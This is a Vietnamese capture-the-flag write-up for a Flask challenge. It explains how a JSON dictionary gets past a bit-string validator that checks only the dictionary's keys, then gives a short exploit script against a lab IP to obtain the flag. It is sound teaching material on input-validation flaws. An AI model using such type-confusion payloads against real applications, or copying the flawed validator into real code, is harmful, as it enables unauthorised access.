

# Sanity Check

## Description:    
Chào mừng bạn ghé thăm website “vibe coding” của mình! Thực ra mình dựng nó chỉ để test xem server cần oxi không thôi, nhưng ở đâu đó vẫn có vài lỗi nho nhỏ đang ẩn mình. Liệu bạn có tìm ra chúng không?

## Phân tích:    
Ta phân tích 1 chút cách hoạt động của trang web với đoạn code ở ```app.py```:    

-Đầu tiên ta sẽ gửi 1 request ```POST``` với ```username```, sau đó trang web sẽ tự lưu file bằng hàm ```save_to_file()``` với tên là username vừa nhập với data là 512 số 0 và redirect về ```/dashboard```:   
```python
def save_to_file(string, filename):
    """Save data to a file"""
    with open(filename, "w", encoding="utf-8") as file:
        file.write(str(string))

def get_user_filename():
    """Get user filename from session"""
    return 'user/'+os.path.basename(session.get('username'))+'.txt'

@app.route('/', methods=['GET','POST'])
def index():
    os.makedirs("user", exist_ok=True)
    if request.method == 'POST':
        session['username'] = request.form['username']
        save_to_file(default_data, get_user_filename())
        return redirect(url_for('dashboard'))
    return render_template('index.html')
```

-Sau đó, ```/update```, thực hiện đọc data từ request POST, kiểm tra với hàm ```is_valid_input()``` nếu thỏa mãn thì thực hiện lưu data vào file của user với hàm ```save_to_file()``` đồng thời trả về 1 ```JSON format``` có dạng: ```{"new_state":"...","status":"updated"}```


```python
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True

@app.route('/update', methods=['POST'])
@is_User_Exist
def update():
    try:
        data = request.json
        if(not is_valid_input(data['data'])):
            return jsonify({'error':'Invalid input'})
        save_to_file(data['data'], get_user_filename())
        return jsonify({'status': 'updated', 'new_state': data['data']})
    except Exception as e:
        return jsonify({'error':e})
```

-```/get_flag``` thực hiện đọc data từ file của user hiện tại và sẽ đưa ra flag nếu như có chuỗi ```Holactf``` ở trong đó thì trả về flag.

```python
@app.route('/get_flag', methods=['GET'])
@is_User_Exist
def get_flag():
    data=read_file(get_user_filename())
    response = FLAG if "Holactf" in data else "No :v"
    return jsonify({'flag': response})
```

==>Vậy ta chỉ cần làm cho file chứa ```Holactf``` là có thể lấy được flag, nhưng cùng phân tích về hàm ```is_valid_input()``` một chút:    

```python
NUMBER_OF_BITS = 32*16
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True
```

-Hàm ```is_valid_input()``` đầu tiên sẽ kiểm tra độ dài của chuỗi mình nhập vào, nếu khác 32*16=512 thì nó return False.    
-->Sau đó hàm sử dụng 1 vòng for, ép kiểu từng kí tự trong đó và check xem có bằng 0 hoặc 1 không. 
--> Nếu tất cả thỏa mãn thì return True tức là tất cả các kí tự trong input đều phải bằng 0 hoặc 1

-Như vậy, nếu ta chèn trực tiếp chuỗi ```...Holactf...``` vào trong data để gửi request đi sẽ bị hàm valid chặn ngay.    

-Vì thế mình có nghĩ đến kiểu ```key-value``` (Dict) vì khi đi qua vòng for, python sẽ chỉ kiểm tra các ```key``` chứ không xét tới ```value```, đồng thời độ dài của dict là tổng các cặp ```key-value``` trong nó. Kiểm chứng:



==>Vậy ta sẽ viết ```"Holactf"``` làm value của dict, ta có script sau:    
```python
import requests
url="http://172.18.49.27:5000/"
s = requests.Session()
data={
    "username": "proochicken"
}
login = s.post(url, data=data)

payload={}

for i in range(1, 512):
    payload["0"*(i+1)] = "proochicken"
payload["1"] = "Holactf"

endpoint = "update"
res = s.post(url+endpoint, json={"data":payload})

endpoint = "get_flag"
res = s.get(url+endpoint)
print(res.json())
```

